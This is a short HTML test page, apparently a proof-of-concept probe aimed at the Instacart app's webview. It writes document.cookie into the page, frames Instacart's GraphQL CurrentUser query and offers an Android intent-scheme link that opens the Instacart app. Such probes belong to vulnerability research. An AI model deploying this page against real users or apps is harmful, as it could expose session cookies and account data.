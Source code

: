  <h1>haha</h1>
<div id="text">test 0.4</div>
<p> Cookie: </p>
<div id="cookie"></div>

<script>
 document.getElementById("cookie").innerHTML = document.cookie;
</script>
<iframe src='https://www.instacart.com/graphql?operationName=CurrentUser&variables={}&extensions={"persistedQuery":{"version":1,"sha256Hash":"bd3b03b798a84c4f48e3e53e219159ae0075368466bda946dd40a0c83f6429ff"}}'></iframe>

<a href="intent:#Intent;component=com.instacart.client/com.instacart.client.ICMainActivity;end">Test intent scheme</a>
